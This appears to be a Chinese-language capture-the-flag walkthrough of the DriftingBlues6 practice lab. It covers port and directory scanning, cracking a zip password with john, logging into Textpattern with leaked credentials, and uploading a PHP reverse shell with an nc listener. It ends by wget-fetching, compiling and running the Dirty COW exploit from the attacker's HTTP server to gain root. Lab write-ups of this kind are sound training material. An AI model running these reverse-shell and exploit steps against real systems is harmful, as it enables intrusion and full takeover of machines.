

# OSCP系列靶场-Esay-DriftingBlues6

## 总结

getwebshell → 大字典目录扫描`.zip`后缀 → 信息泄露获取后台登录权限 → 文件上传漏洞`getwebshell`

提 权 思 路 → 基础信息收集发现内核版本偏低 → 脏牛提权

## 准备工作

  * 启动VPN  
获取攻击机IP > `192.168.45.171`


  * 启动靶机  
获取目标机器IP > `192.168.244.219`


## 信息收集-端口扫描

### 目标开放端口收集

  * [ ] Nmap开放端口扫描2次
    
        sudo nmap --min-rate 10000 -p- 192.168.244.219
    

  
通过两次收集到的端口:`→80`

### 目标端口对应服务探测

    
    
    # tcp探测
    sudo nmap -sT -sV -O -sC -p80 192.168.244.219
    


## 信息收集-端口测试

只有一个80端口是突破口

### 80-HTTP端口的信息收集

访问 <http://192.168.244.219:80> 不是一个标准的`CMS`


#### 信息收集-源码查看

    
    
    # 包括文章中是否写明一些敏感信息
    curl http://192.168.244.219:80
    

通过网站发现有很大的怨念，源码里面发现了一个网站  
`vvmlist.github.io`<mark style="#FFB8EBA6">(若没思路的话尝试访问)</mark>

    
    
    please hack vvmlist.github.io instead
    he and their army always hacking us -->     
    
    
    #### 信息收集-目录扫描
    ##### 信息收集-目录扫描初步
    如果扫描发现301适当考虑 -r 2 进行递归
    ```shell
    dirsearch -u http://192.168.244.219:80 -x 302,403

  
因为扫出了目录，深层次的扫描待选

    
    
    信息收集-目录扫描(后缀)
    信息收集-目录扫描(深度/大字典)
    信息收集-目录扫描(深度/大字典后缀)

#### 信息收集-端点访问

    
    
    [16:39:21] 200 -   52KB  - /db   
    [16:39:30] 200 -   750B  - /index     
    [16:39:30] 200 -   750B  - /index.html  
    [16:39:56] 200 -   110B  - /robots.txt     
    [16:40:06] 200 -   12KB  - /textpattern/

##### `db`端点(没思路考虑)

是一张图片，推测可能存在隐写，先下载下来吧


    
    
    wget http://192.168.244.219:80/db
    


##### `/robots.txt`端点

得到了新的目录`/textpattern/textpattern`以及提示  
说明目录扫描的时候需要添加后缀字典


##### 信息收集-目录扫描(后缀)

    
    
    # -t 指定线程 -x 添加后缀扩展名 (根据网站脚本语言加后缀)
    gobuster dir -u http://192.168.244.219:80 -w /usr/share/wordlists/dirb/big.txt -t 10 -x .html,.php,.zip
    

##### `/textpattern`端点

在该端点下没有什么功能点


##### `/textpattern/textpattern`端点

发现是一个登录界面，应该是标准的`CMS`  
在登录界面可以尝试弱口令、漏洞攻击(需要知道版本最佳)、爆破等等，乘着在目录扫描后缀的时候试试该端点


##### `/textpattern/textpattern`端点指纹识别

    
    
    whatweb http://192.168.244.219:80/textpattern/textpattern
    

`CMS`是`Textpattern`


#### vvmlist.github.io访问

在目前还在扫描的情况下，就先去访问之前放置在一边的`url`

  
网络不是很稳定还有丢包 ≧ ﹏ ≦  
访问网站发现没什么有用的内容，尝试图片的隐写术测试  
总体来说图片隐写术也是需要密码才能解密的，因此希望放回到目录爆破上

#### 信息收集-目录扫描(max)

扫完之后发现没有`.zip`的内容，决定上更大的字典(哭了)


`kali`自带的字典如下

    
    
    # 字典行数 20469(一般字典)
    cat /usr/share/wordlists/dirb/big.txt
    # 字典行数 220560(大字典)
    cat /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    
    
    
    # -t 指定线程 -x 添加后缀扩展名 (根据网站脚本语言加后缀)
    gobuster dir -u http://192.168.244.219:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x .zip
    

发现存在`/spammer.zip`文件


#### 信息收集-端点访问

##### `/spammer.zip`端点访问

扫描发现了`/spammer.zip`端点后，应该是个文件夹，首先下载

    
    
    wget http://192.168.244.219/spammer.zip
    

  
尝试解压发现需要密码


##### 暴力破解-hash密码破解

    
    
    # 利用zip2john将zip转换
    zip2john spammer.zip  &gt;  password.hash
    # 利用john离线破译hash的zip密码
    john --wordlist=/usr/share/wordlists/rockyou.txt password.hash
    

通过爆破得到密码为`myspace4`

  
得到了一个文件`creds.txt`


## 漏洞利用-getwebshell

#### 信息泄露登录web

打开我们解密的文件得到了账号密码的信息`mayer:lionheart`

  
由于没有`SSH`端口，推测是在登录端点登录  
提示时间不对，不管直接打勾登录


### 文件上传getwebshell

成功进入后台


#### 获取CMS版本信息

通常第一步是要获取对应的版本信息，在左下角发现了版本  
`Textpattern 4.8.3`

  
利用`msf`寻找是否存在通用漏洞  
`searchsploit textpattern 4.8.3`后发现了代码执行漏洞

  
查看一下脚本该怎么用

    
    
    cat /usr/share/exploitdb/exploits/php/webapps/49620.py
    

  
根据脚本的要求需要3个参数 网址 账号以及密码

    
    
    python /usr/share/exploitdb/exploits/php/webapps/49620.py -t http://192.168.244.219:80/textpattern/textpattern -u mayer -p lionheart
    

发现运行不了

  
尝试换了一个脚本

    
    
    python /usr/share/exploitdb/exploits/php/webapps/48943.py http://192.168.244.219:80/textpattern mayer lionheart
    

发现里面有一行报错了

  
`(╯▔皿▔)╯`上面的脚本是运行没发现，下面的脚本是运行出错了，决定手动上传  
找到上传点

  
上传`php`的文件成功，没有过滤

  
上传之后不太清楚文件的上传位置，搜了一下网上的利用方式，发现上传位置


#### php反弹shell

清楚了之后我们可以尝试`getwebshell`了  
`kali`里面已经给我们准备好了`反弹shell`文件

    
    
    # 利用cp命令cp一个到当前文件夹
    sudo cp /usr/share/webshells/php/php-reverse-shell.php .
    
    
    
    # 开启监听
    nc -lvvp 5555
    


    
    
    # 换个名字
    cp php-reverse-shell.php ./shell11.php  
    # 修改一下shell的反代地址
    vim shell11.php
    

  
上传成功

  
访问 <http://192.168.244.219:80/textpattern/files/shell11.php>  
成功`getwebshell`


## 内网遨游-getshell

### 交互shell

由于获取的shell交互不友好，利用python获得新的交互shell

    
    
    $ python -c "import pty;pty.spawn('/bin/bash')";
    www-data<span class="label label-primary">@driftingblues</span>:/$
    


### 提权基础(内网信息收集)

提权的本质在于枚举

#### 检测Linux操作系统的发行版本

    
    
    # 确定发行版本
    cat /etc/lsb-release      # Debian based
    

`Debian 7`发行版不太能`overlayfs`提权


#### 检测Linux操作系统的内核版本

    
    
    cat /proc/version
    uname -a
    

看上去内核版本有点老 `3.2.0` 存在提权漏洞


### 权限提升

#### 脏牛内核提权尝试

利用`msf`搜索内核版本  
`searchsploit Linux 3.2.0` 发现比较多的是脏牛提权，使用对应文件

  
查看文件确认编译语句

    
    
    使用该脚本会建立一个 firefart 的特权账号  密码自输

  
这里选用了`40839.c`，没选择其他的条件竞争

##### python3开启http服务

    
    
    # 利用python开启http服务，方便目标机器上下载文件
    sudo python3 -m http.server 81
    


    
    
    # 目标机器到tmp目录下下载(有下载权限)
    cd /tmp
    # 下载
    wget http://192.168.45.157:81/40839.c
    # 给权限
    chmod +x 40839.c
    # 编译
    gcc -pthread 40839.c -o shell -lcrypt 
    # 给权限
    chmod +x shell
    # 运行
    ./shell
    

  
利用 `su firefart` 和密码登录之后可以成功访问`root`目录，提权成功


### FLAG2获取

    
    
    # 本靶场只有一个flag
    firefart<span class="label label-primary">@driftingblues</span>:~# cat /root/proof.txt
    ********************
    


完结撒花~

